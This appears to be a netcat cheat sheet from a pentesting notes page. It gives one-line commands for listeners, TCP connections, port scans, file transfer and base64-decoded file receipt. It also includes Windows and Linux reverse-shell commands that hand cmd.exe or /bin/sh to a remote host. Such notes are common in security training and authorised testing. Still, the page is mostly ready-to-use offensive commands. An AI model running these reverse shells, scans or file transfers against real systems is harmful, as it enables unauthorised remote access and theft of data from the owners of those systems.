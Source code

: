### Source
https://github.com/diegocr/netcat  

### Start listener
```
nc -lvp <lport>
```

### Connect to given port using TCP, -v verbose, -n dont resolve
```
nc -nv <rhost> <rport>
```

### Port scan, -z zero I/O mode, -w wait
```
nc -z -n -v -w1 <rhost> <rport>-<rport>
```

### Windows reverse shell
```
nc -nv <lhost> <lport> -e cmd.exe
```

### Linux reverse shell
```
nc -nv <lhost> <lport> -e /bin/sh
```

### Send file (-N close connection after transfer done)
```
nc -N <lhost> <lport> < <file>
```

### Receive file
```
nc -vlp <lport> > <file>
```

### Receive file base64 encoded
```
nc -lnp <lport> | base64 -i -d > <file>
```

